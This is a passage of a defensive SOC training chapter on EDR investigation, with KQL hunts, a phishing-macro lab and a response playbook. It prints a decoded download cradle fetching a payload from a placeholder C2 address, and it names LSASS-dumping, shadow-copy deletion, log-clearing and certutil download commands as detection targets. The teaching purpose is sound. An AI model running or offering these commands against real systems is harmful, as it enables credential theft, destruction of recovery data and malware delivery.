Reading LSASS memory to harvest hashes/tickets. Signatures: a non-system process opening a handle to `lsass.exe` (Sysmon EID 10), `rundll32 comsvcs.dll, MiniDump`, `procdump lsass`, or a `.dmp` written near LSASS.

```kusto
DeviceEvents
| where FileName =~ "lsass.exe" and ActionType == "OpenProcessApiCall"
| where InitiatingProcessFileName !in~ ("wininit.exe","services.exe","msmpeng.exe","csrss.exe")
| project Timestamp, DeviceName, InitiatingProcessFileName, InitiatingProcessCommandLine
```

**Tell:** `comsvcs.dll` + `MiniDump`, `procdump -ma lsass`, or Mimikatz-style command lines (`sekurlsa::`). This is a **contain-now** finding — assume credentials are stolen and reset.

### Persistence (T1547 / T1053 / T1543 / T1546)

Attackers survive reboots via Run keys, scheduled tasks, services, and WMI event subscriptions. Signatures across registry, process, and WMI events:

```kusto
// Run-key writes
DeviceRegistryEvents | where RegistryKey has_any (@"CurrentVersion\Run", @"CurrentVersion\RunOnce")
| project Timestamp, DeviceName, RegistryValueName, RegistryValueData
// Scheduled task creation
DeviceProcessEvents | where FileName =~ "schtasks.exe" and ProcessCommandLine has "/create"
// New service
DeviceProcessEvents | where FileName =~ "sc.exe" and ProcessCommandLine has "create"
// WMI persistence (event consumer)
DeviceProcessEvents | where ProcessCommandLine has_all ("wmic","ActiveScriptEventConsumer")
```

**Tell:** persistence written *right after* an initial-access event, pointing at a payload in `Temp`/`AppData`, named to look legitimate ("Updater", "MicrosoftEdgeUpdate").

### Lateral movement (T1021 / T1570)

Moving host-to-host with stolen creds. Endpoint signatures: `PsExec`/`PSEXESVC`, remote `wmic ... /node:`, `winrs`/WinRM (`wsmprovhost.exe` as parent), `sc \\host create`, or an inbound Type-3 logon followed by a new service (correlate with Chapter 7 logon events).

```kusto
DeviceProcessEvents
| where FileName in~ ("psexec.exe","psexesvc.exe","wmic.exe","winrs.exe") or InitiatingProcessFileName =~ "wsmprovhost.exe"
| project Timestamp, DeviceName, AccountName, FileName, ProcessCommandLine
```

**Tell:** an admin-style remote-exec tool run by a *non-admin* user, or a burst of the same tool fanning out to many hosts, is lateral movement — pivot to the network (Chapter 10) and identity (Chapter 7) views to map the path.

### Defense evasion (T1562 / T1070)

Clearing logs, disabling AV/EDR, deleting shadow copies (pre-ransomware).

```kusto
DeviceProcessEvents
| where ProcessCommandLine has_any ("vssadmin delete","wbadmin delete","wevtutil cl","Set-MpPreference -Disable","Remove-MpPreference","bcdedit /set")
| project Timestamp, DeviceName, AccountName, ProcessCommandLine
```

**Tell:** `vssadmin delete shadows /all` or `wevtutil cl` is often the last quiet step before ransomware detonates or right after an attacker cleans up — treat as urgent.

| Technique | Primary telemetry | Contain urgency |
|---|---|---|
| Injection (T1055) | CreateRemoteThread; mismatched net-owner process | High |
| Cred dumping (T1003) | Handle to LSASS; `comsvcs MiniDump` | **Immediate** |
| Persistence (T1547/53/43/46) | Registry Run / schtasks / sc / WMI | Medium–High |
| Lateral (T1021) | PsExec/WMI/WinRM by odd user | High |
| Defense evasion (T1562/70) | `vssadmin delete`, `wevtutil cl`, AV disable | **Immediate** |

## Part 7: Response, Remediation, and Tamper Awareness

EDR's "R" — **Response** — is what separates it from passive logging. As a Tier 1/2 analyst you will use these actions, usually under an approval workflow.

### The response toolbox

| Action | What it does | When |
|---|---|---|
| **Network isolation / containment** | Cuts the host off the network *except* the EDR channel | Confirmed compromise — stop C2/lateral spread while preserving the box for IR |
| **Kill / suspend process** | Terminates the malicious process | Active malicious process (beacon, ransomware) |
| **Quarantine file** | Removes/neutralises a dropped payload | Known-bad file on disk |
| **Live response / remote shell** | Interactive session on the host to collect artifacts, run commands | Deep investigation, evidence collection |
| **Remove persistence** | Delete the Run key / task / service | Cleanup / remediation |
| **Block indicator** | Add hash/IP/domain to the org block policy | Prevent recurrence fleet-wide |
| **Collect investigation package** | Auto-gather forensic artifacts from the host | Evidence preservation before reimage |

**Isolation is usually the first containment move for a confirmed endpoint compromise** — it severs the attacker's control and stops lateral movement, but keeps the machine alive and reachable *by the EDR* so you can investigate and collect evidence before deciding to reimage. Choose isolation over immediate reimage when you still need to understand scope; reimage after you've scoped and collected.

### Tamper and evasion awareness — don't mistake silence for safety

Attackers actively try to defeat EDR. You must recognise the attempts, because a *disabled* sensor is a detection, not a gap to shrug at:

- **Killing/stopping the agent** — service stop, process kill, driver unload. EDR self-protection resists this, and the *attempt* (or the sensor going offline) should alert.
- **ETW patching** — zeroing out the ETW provider so events stop flowing (e.g., patching `EtwEventWrite`). Modern sensors detect this.
- **AMSI bypass** — patching `AmsiScanBuffer` in memory so scripts aren't scanned; a very common PowerShell-attack step. The bypass code itself is a detection.
- **Unhooking** — restoring the original bytes of hooked APIs to evade user-mode monitoring (why kernel/ETW visibility matters).
- **BYOVD (Bring Your Own Vulnerable Driver)** — loading a signed-but-vulnerable driver to disable EDR from the kernel. A new/unusual driver load (**T1068/T1211**) is a red flag.
- **Living off the land** — using only signed OS binaries so there's nothing to quarantine (Part 2's LOLBins).



**Analyst rule:** monitor the *health* of your EDR fleet. A host that stops reporting, a sensor that's suddenly disabled, an AMSI/ETW-tamper alert, or an unexpected driver load are all high-priority — attackers blind the sensor *before* the noisy part of the attack. Absence of expected telemetry is a signal (the same principle as Chapter 8's "alert on logging gaps").

---

## Part 8: Hands-On Lab — Investigating a Malicious-Document → C2 Chain

An EDR alert fires: **"Suspicious PowerShell spawned by Office (T1059.001)"** on host `FIN-WKS-07`, user `jsmith`. Work it as a Tier 2 analyst. Reproduce this in a lab (DetectionLab / Splunk Attack Range, or a Windows VM with Sysmon and a benign simulated macro), or against a public dataset like Mordor/Security-Datasets. Never run live malware outside an isolated range.

### Step 1 — Read the alert and open the process tree

The alert names `powershell.exe` with a suspicious command line, parent `WINWORD.EXE`. Pull the tree (KQL):

```kusto
DeviceProcessEvents
| where DeviceName == "FIN-WKS-07"
| where Timestamp between (datetime(2027-02-21 09:04) .. datetime(2027-02-21 09:20))
| project Timestamp, InitiatingProcessFileName, FileName, ProcessCommandLine, AccountName
| sort by Timestamp asc
```

```text
09:05:11  OUTLOOK.EXE   -> WINWORD.EXE   "WINWORD.EXE /n C:\Users\jsmith\...\invoice.docm"
09:05:29  WINWORD.EXE   -> cmd.exe       "cmd.exe /c powershell -nop -w hidden -enc SQBFAFgA..."
09:05:29  cmd.exe       -> powershell.exe "powershell -nop -w hidden -enc SQBFAFgA..."
09:05:31  powershell.exe-> rundll32.exe  "rundll32.exe C:\Users\jsmith\AppData\Local\Temp\a.dll,Start"
```

**Read:** Outlook → Word (opened `invoice.docm`, a macro doc) → cmd → encoded PowerShell → rundll32 loading a DLL from `Temp`. The tree screams phishing-macro execution. Initial access = malicious document (pivot to Chapter 9 for the email).

### Step 2 — Decode the command line

```bash
echo 'SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkA...' \
  | base64 -d | iconv -f UTF-16LE -t UTF-8
# IEX (New-Object Net.WebClient).DownloadString('http://203.0.113.44/loader')
```

**Read:** a download-cradle pulling a second-stage from `http://203.0.113.44/loader`. That IP is our C2 (and matches Chapter 10's beacon lab — the endpoint and network views converge on the same infrastructure).

### Step 3 — Follow file and network activity

```kusto
// Files written by the chain (dropped payload)
DeviceFileEvents
| where DeviceName == "FIN-WKS-07" and InitiatingProcessFileName in~ ("powershell.exe","rundll32.exe")
| project Timestamp, ActionType, FileName, FolderPath, SHA256
// -> a.dll written to \AppData\Local\Temp\, SHA256 <hash>

// Network connections by the chain
DeviceNetworkEvents
| where DeviceName == "FIN-WKS-07" and InitiatingProcessFileName in~ ("powershell.exe","rundll32.exe")
| project Timestamp, RemoteIP, RemotePort, InitiatingProcessFileName
// -> rundll32.exe -> 203.0.113.44:443 repeatedly (the beacon)
```

**Read:** the chain dropped `a.dll` to Temp and `rundll32` is now beaconing to `203.0.113.44:443`. Hash the DLL and check reputation (VirusTotal/MalwareBazaar) — confirmed malicious loader.

### Step 4 — Check persistence and credential access

```kusto
// Persistence created around the same time?
DeviceRegistryEvents
| where DeviceName == "FIN-WKS-07" and Timestamp > datetime(2027-02-21 09:05)
| where RegistryKey has @"CurrentVersion\Run"
| project Timestamp, RegistryKey, RegistryValueName, RegistryValueData
// -> HKCU\...\Run  "Updater" = rundll32 ...\a.dll,Start   (persistence, T1547.001)

// Any LSASS access (credential dumping)?
DeviceEvents
| where DeviceName == "FIN-WKS-07" and ActionType == "OpenProcessApiCall" and FileName =~ "lsass.exe"
| project Timestamp, InitiatingProcessFileName, InitiatingProcessCommandLine
// -> rundll32 opened a handle to lsass.exe  (T1003.001 — credential dumping attempted)
```

**Read:** the loader established **persistence** via a Run key and **attempted credential dumping** from LSASS. This is now a serious compromise — the attacker may hold `jsmith`'s (and others') credentials.

### Step 5 — Scope across the fleet

```kusto
// Any other host talking to the C2, or with the same DLL hash, or the same macro?
DeviceNetworkEvents | where RemoteIP == "203.0.113.44" | distinct DeviceName
DeviceFileEvents   | where SHA256 == "<a.dll hash>"   | distinct DeviceName
DeviceProcessEvents| where ProcessCommandLine has "invoice.docm" | distinct DeviceName, AccountName
```

```text
C2 talkers:  FIN-WKS-07, FIN-WKS-12
Same DLL:    FIN-WKS-07, FIN-WKS-12
Macro doc:   FIN-WKS-07 (jsmith), FIN-WKS-12 (bpatel)   <- two users phished
```

**Read:** **two** hosts are compromised — the phishing campaign hit at least two finance users. Scope is now two endpoints, two accounts, one C2, one loader hash. (This is where you'd pull the email in Defender/Message Trace, Chapter 9, to find *every* recipient.)

### Step 5b — Tie it back to the email (cross-domain correlation)

The parent chain said "malicious document," so pull the delivery. In Defender you jump from the endpoint alert to the email (Chapter 9); on Sysmon-only data you at least have the filename and the times to search Message Trace:

```kusto
// Find the email that delivered invoice.docm to the affected users
EmailAttachmentInfo
| where FileName =~ "invoice.docm"
| join kind=inner EmailEvents on NetworkMessageId
| project Timestamp, SenderFromAddress, RecipientEmailAddress, Subject, DeliveryAction, FileName
```

```text
Sender:    billing@acme-invoicing.co   (look-alike vendor domain)
Recipients: jsmith@corp.com, bpatel@corp.com, 5 others
Delivery:  Delivered (not blocked)
```

**Read:** the same phishing email reached **7** users, not just the 2 who executed. Now you purge it from all 7 mailboxes (Chapter 9) and watch the other 5 for execution. This is the endpoint→email pivot that scopes the *campaign*, not just the two hosts that fired EDR alerts — a reminder that EDR is one lens and the case closes only when the lenses agree.

### Step 6 — Contain, remediate, document

1. **Isolate** `FIN-WKS-07` and `FIN-WKS-12` via EDR (severs C2, keeps them for IR).
2. **Kill** the `rundll32` beacon; **quarantine** `a.dll`; **remove** the Run-key persistence.
3. **Reset credentials** for `jsmith` and `bpatel` (and treat any account whose creds could have been in LSASS as exposed); revoke sessions/tokens.
4. **Block** the loader hash and `203.0.113.44` fleet-wide (EDR custom IOC + egress firewall, Chapter 10).
5. **Purge** the phishing email across mailboxes (Chapter 9) so no one else opens it.
6. **Document** the timeline, IOCs, and ATT&CK techniques (T1566 → T1059.001 → T1105 → T1547.001 → T1003.001 → T1071) — this record hands off cleanly to formal incident handling (Chapter 13).

### Timeline and verdict

| Time | Evidence (EDR) | Finding | ATT&CK |
|---|---|---|---|
| 09:05:11 | tree: OUTLOOK→WINWORD | Malicious doc opened | T1566 |
| 09:05:29 | tree: WINWORD→cmd→powershell -enc | Macro ran, encoded PS | T1059.001, T1027 |
| 09:05:29 | decoded cmdline | Download-cradle to C2 | T1105 |
| 09:05:31 | file + net events | `a.dll` dropped, rundll32 beacons | T1071 |
| 09:06 | registry event | Run-key persistence | T1547.001 |
| 09:07 | lsass handle | Credential dumping attempt | T1003.001 |
| 09:10 | fleet hunt | 2nd host + user compromised | scope |

**Verdict:** confirmed phishing-macro compromise of two finance endpoints with C2, persistence, and attempted credential theft; contained via isolation + remediation; credentials reset; campaign purged. The investigation moved endpoint→network→email and back, each pivot driven by the process tree and command lines — the EDR method in full.

---

## Part 9: Detection & Defense Angle (Consolidated)

EDR is a detection *and* response platform; here's how to run it well.

### High-value EDR detections (behavioural)

| Detection | Logic | ATT&CK |
|---|---|---|
| Office → shell | Office app parent, shell/script child | T1566 → T1059 |
| Encoded/obfuscated PowerShell | `-enc`/`-w hidden`/`bypass`/`FromBase64String` | T1059.001, T1027 |
| LOLBin download | `certutil`/`bitsadmin`/`mshta` fetching remote content | T1105, T1218 |
| LSASS access | non-system process opens handle to `lsass.exe` | T1003.001 |
| Persistence writes | Run keys, new services/tasks, WMI subscriptions | T1547, T1053, T1546 |
| Injection | remote-thread create / suspicious image load into another proc | T1055 |
| Sensor tamper | AMSI/ETW patch, agent stop, BYOVD driver load | T1562 |
| Suspicious parent | `w3wp`/`services`/`sqlservr` spawning shells | T1190, T1505 |
| Ransomware behaviour | mass file rename/encrypt + shadow-copy deletion (`vssadmin delete`) | T1486, T1490 |

### Operating an EDR capability

1. **Deploy everywhere and monitor sensor health.** Coverage gaps and disabled sensors are where attackers live; alert on both.
2. **Tune detections** to your environment (admin tools legitimately use `certutil`/PsExec) — the false-positive discipline of Chapter 12 applies directly.
3. **Hunt regularly**, not just react — schedule the Part-6 hunts (Office→shell, encoded PS, LSASS access) and investigate hits.
4. **Integrate with the network and identity views.** EDR says *which process*; NSM (Chapter 10) says *what it talked to*; identity (Chapters 7–8) says *which account*. Cross-correlation is where cases get closed.
5. **Feed IOCs both ways** — network/email IOCs become EDR hunts; EDR-found hashes/IPs become network blocks and threat intel (Chapter 19).
6. **Practise response** — know your isolation/kill/quarantine workflow and approvals *before* the incident, so containment is minutes not hours.
7. **Preserve before you wipe** — collect the investigation package/triage image before reimaging, so you keep evidence and can confirm remediation.

### Endpoint IOCs — what you extract and where it goes

Every endpoint investigation produces indicators; know the types and their durability (the "Pyramid of Pain" idea — the higher the type, the more it costs the attacker to change):

| IOC type | Example | Durability / value |
|---|---|---|
| File hash (SHA256) | `a.dll` = 908b64… | Trivial for attacker to change (recompile) — low, but precise |
| IP address | `203.0.113.44` | Easy to rotate — medium |
| Domain | `cdn-update-7f3a.example-c2.com` | Costs a little to change — medium |
| Registry/persistence artifact | Run key "Updater" → rundll32 a.dll | Costs some tooling change — higher |
| Command-line / behaviour pattern | `Office → powershell -enc → rundll32 Temp\*.dll,Start` | Hard to change without rewriting tradecraft — **highest** |

**Where they go:** hashes/IPs/domains → EDR custom-IOC blocklist, network egress block (Chapter 10), and threat intel (Chapter 19); *behavioural* patterns → new detection rules (Chapter 12) and hunts. The behavioural indicators are the most valuable because they catch the *next* campaign even when the attacker swaps every hash and IP — which is exactly why EDR's behavioural focus (Part 2) beats hash-based AV.

### Defensive hardening that makes EDR more effective

- **Attack-surface reduction:** block Office child processes, block `mshta`/`wscript` where unneeded, disable macros from the internet, WDAC/AppLocker allow-listing — many EDR products expose ASR rules that *prevent* the Part-8 chain outright.
- **Credential protection:** Credential Guard, LSASS protection (RunAsPPL), disabling WDigest — raise the cost of the LSASS step.
- **Least privilege + tiering** (Chapter 7/AD) so a single endpoint compromise doesn't yield domain admin.
- **Phishing-resistant MFA** (Chapter 9) so stolen creds are less useful.

---

## Part 10: Common Pitfalls

- **Treating the alert as the whole story.** The alert is one node; the *tree* and the *scope hunt* are the investigation. Always walk up (initial access) and down (impact), then scope the fleet.
- **Ignoring the command line.** `powershell.exe` is neutral; the arguments are the attack. Decode `-enc` every time.
- **Mistaking a disabled sensor for a quiet host.** Attackers blind EDR first. Missing telemetry and tamper alerts are high priority, not noise.
- **Assuming EDR = AV.** EDR detects *behaviour* and lets you *respond and hunt*; managing it like signature AV wastes its value.
- **Not scoping.** Finding one compromised host and stopping there leaves the other infected machines active. Hunt every IOC across all endpoints.
- **Reimaging before collecting.** Wipe the box and you lose the evidence and the ability to confirm remediation. Preserve first.
- **Over-trusting the parent field.** Sophisticated attacks spoof PPID (`T1134`) to hide the real parent. Corroborate with other telemetry when the tree looks "too clean."
- **False positives from admin tooling.** IT uses PsExec, `certutil`, remote PowerShell legitimately. Tune and baseline, or you'll drown (Chapter 12).
- **Forgetting cross-domain correlation.** The endpoint view alone can miss scope that the network (Chapter 10) or email (Chapter 9) view reveals.
- **Blocking only hashes and IPs.** These rotate cheaply; the attacker is back tomorrow with new ones. Turn the *behaviour* into a detection so the next variant is caught too.
- **Skipping the "innocent explanation" check.** Firing on every `powershell`/`certutil`/PsExec without checking context (user, parent, path, destination) buries you in false positives and erodes trust in the EDR.
- **Assuming High/System integrity is normal.** A child process that jumps from Medium to High/System integrity without a legitimate UAC prompt is privilege escalation — read the integrity level, not just the image.

---

## Part 11: Final Revision / Summary

- **EDR** instruments the OS to emit process/file/registry/network/image-load/script events and stitches process-creation into a **process tree** — the analyst's primary artifact. **Parent-child anomalies** (Office→shell) and **command lines** (`-enc`, LOLBin args) carry most detections.
- EDR ≠ AV: AV blocks *known files*; EDR detects *malicious behaviour* (fileless, LOLBins, injection), retains rich telemetry for hunting, and adds **response** (isolate/kill/quarantine/remediate).
- The sensor sees via **kernel callbacks, minifilter, ETW (incl. Threat-Intelligence), AMSI, and eBPF on Linux** — which is also what attackers try to tamper with (ETW patch, AMSI bypass, BYOVD). **Sysmon** is the free way to learn it all.
- Detections are **behavioural rules mapped to MITRE ATT&CK**; the technique ID places the alert on the kill chain and tells you what to check before/after.
- The **investigation workflow**: alert → process tree (up + down) → command lines (decode) → file → network → persistence → impact → **scope the fleet** → contain/remediate → document.
- **Hunting** uses EDR query languages — **Defender KQL** (`DeviceProcessEvents` et al.), **Splunk SPL** over Sysmon, and vendor-neutral **osquery** (the OS as a SQL database, ideal for fleet-wide scoping).
- **Response**: **isolation** is the usual first containment for a confirmed compromise (severs the attacker, preserves the host); then kill/quarantine/remove-persistence/block/reset; **preserve evidence before reimaging**.
- **Never mistake silence for safety** — a disabled sensor or a tamper alert is the attacker blinding you.

The whole method, in one picture:



If you can read a process tree, decode a command line, pivot through file/network/persistence telemetry, hunt an IOC across the fleet, and drive an isolation, you have the core EDR competency — the endpoint half of the detection picture whose network half you built in Chapter 10, and the raw material Chapter 12 turns into tuned, trustworthy alerts.

---

## Part 12: Cheat Sheet / Quick Reference

**Event classes:** process (image, cmdline, PPID, user, hashes) · file · registry · network (with owning process) · image/module load · logon · named pipe · script/AMSI.

**Suspicious PowerShell switches:** `-enc/-EncodedCommand` · `-nop/-NoProfile` · `-w hidden` · `-ep bypass` · `IEX/Invoke-Expression` · `DownloadString/DownloadFile` · `FromBase64String`.

**LOLBins to know:** `powershell certutil rundll32 regsvr32 mshta wmic bitsadmin msbuild cscript wscript` (see LOLBAS).

**Decode encoded PowerShell:**

```bash
echo '<base64>' | base64 -d | iconv -f UTF-16LE -t UTF-8
```

**Defender KQL essentials:**

```kusto
DeviceProcessEvents | where InitiatingProcessFileName in~("winword.exe","excel.exe","outlook.exe")
  and FileName in~("cmd.exe","powershell.exe","mshta.exe")
DeviceProcessEvents | where FileName=~"powershell.exe" and ProcessCommandLine has_any("-enc","hidden","bypass")
DeviceNetworkEvents | where RemoteIP == "<C2 IP>"
DeviceEvents        | where ActionType=="OpenProcessApiCall" and FileName=~"lsass.exe"
DeviceRegistryEvents| where RegistryKey has @"CurrentVersion\Run"
```

**Velociraptor (free DFIR at scale):** VQL artifacts (`Windows.Persistence.*`, `Windows.KapeFiles.Targets`, `pslist()`) to hunt and collect forensic evidence fleet-wide before reimaging.

**osquery essentials:**

```sql
SELECT pid,name,cmdline,parent FROM processes;
SELECT * FROM process_open_sockets WHERE remote_address='<C2 IP>';
SELECT name,path,source FROM autoexec;          -- persistence surfaces
```

**Rebuild a tree by hand:** join process events on `PID`↔`ParentPID`; walk up for initial access, down for impact.

**Investigation order:** alert → tree (up=initial access, down=impact) → cmdlines → file → network → persistence → scope fleet → contain → document.

**Response:** isolate (first, for confirmed compromise) · kill/suspend · quarantine · remove persistence · block IOC · collect package · *then* reimage.

**Tamper signals (high priority):** AMSI/ETW patch · agent stop / sensor offline · BYOVD driver load · PPID spoofing.

**ATT&CK quick map:** T1566 phishing · T1059(.001) scripting/PowerShell · T1027 obfuscation · T1105 ingress tool transfer · T1218 signed-binary proxy · T1547/T1053/T1546 persistence · T1055 injection · T1003 credential dumping · T1562 impair defenses · T1486/T1490 ransomware.

**Sysmon IDs (free EDR):** 1 process · 3 network · 7 image load · 8 CreateRemoteThread · 10 ProcessAccess (LSASS) · 11 file · 12–14 registry · 17/18 named pipe · 22 DNS · 25 process tampering.

**Contain-now behaviours:** LSASS access/dump · `vssadmin delete shadows` · `wevtutil cl` / log clear · AV/EDR disable · BYOVD driver load · mass file encryption.

**Pyramid of Pain (IOC value, low→high):** hash < IP < domain < artifact < **behaviour/TTP** — prioritise behavioural detections; they survive the attacker rotating hashes and IPs.

---

## Part 13: Practice Labs & Resources

- **TryHackMe — "Intro to Endpoint Security", "Sysmon", "Windows Event Logs", "Investigating Windows", "Tempest", "Boogeyman" (1–3), "Aurora EDR" / "Wazuh"**: hands-on process-tree and endpoint-telemetry investigations.
- **DetectionLab** and the **Splunk Attack Range** — build a Windows AD range, run safe atomic attacks, and hunt the resulting telemetry.
- **Atomic Red Team** — run individual, ATT&CK-mapped test behaviours (safely) and confirm your EDR/Sysmon detects each; the fastest way to learn technique→telemetry.
- **Mordor / OTRF Security-Datasets** — pre-recorded, ATT&CK-labelled endpoint datasets to practise hunting without running anything live.
- **EVTX-ATTACK-SAMPLES** (GitHub) — real attack EVTX for offline process-tree reconstruction (pairs with Chapter 7).
- **osquery** + **Fleet** — stand up osquery on a few VMs and write fleet-wide hunt/scoping queries.
- **Microsoft Defender for Endpoint evaluation lab** and its **Advanced Hunting** KQL — practise the exact queries in Part 6 against simulated attacks.
- **MITRE ATT&CK** and **LOLBAS** — study the techniques and the living-off-the-land binaries you'll see in command lines.

**Practice questions to test yourself:**

1. You see `WINWORD.EXE → powershell.exe -nop -w hidden -enc <b64>`. Explain, node by node, why this tree is malicious and what each PowerShell switch is doing.
2. AV shows "no threats" but EDR alerts on `certutil.exe -urlcache -f http://x/y.exe`. Why does AV miss it and EDR catch it? Name the technique.
3. Decode (conceptually) a PowerShell `-enc` value: what encoding is it, and what one command turns it back into readable script?
4. An EDR alert is tagged **T1003.001**. What does that tell you the attacker just did, and what tactic do you check for next and why?
5. A host stops sending EDR telemetry mid-incident. Is this good news? Explain what it likely means and how you'd treat it.
6. Write the fleet-scoping queries (any language) you'd run given one C2 IP and one malicious DLL hash, and say what each answers.
7. You see `svchost.exe` beaconing to a rare IP, but `svchost` was spawned normally by `services.exe`. What technique explains a "clean-parent" process doing something malicious, and which telemetry would confirm it?
8. Distinguish a *malicious* `certutil -urlcache -f http://x/y.exe` from a *benign* `certutil` use, citing the exact contextual signals you'd check.
9. Given a Sysmon Event ID 1 with `IntegrityLevel: Medium` now and `IntegrityLevel: System` on a child two nodes later, what happened between them and which tactic is it?
10. Your org has no commercial EDR. Describe the free stack (name the tools) that gives you process-tree telemetry, live fleet queries, and DFIR collection — and what each contributes.
11. Rank these IOCs by how much they cost the attacker to change: file hash, C2 IP, the behavioural pattern "Office→powershell -enc→rundll32 Temp\\*.dll,Start." Why should your detection prioritise the last?
12. When would you choose EDR **network isolation** over an immediate reimage, and what does isolation preserve that reimaging destroys?

Answer each as an IR note — the telemetry you'd cite, the query you'd run, and the next pivot. That process-tree-plus-command-line-plus-scope discipline is the endpoint core of the SOC, and it feeds directly into Chapter 12's alert triage (deciding which of these fire as true positives) and Chapter 13's incident handling (turning this investigation into a managed response).

Practise on a real range until reading a tree and decoding a command line are reflexes, not tasks — the analysts who close endpoint cases fastest are the ones for whom "walk up, walk down, decode, scope" needs no conscious thought.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/blueteam-soc/11-edr-fundamentals-and-endpoint-investigation), with comments and the latest edits.*
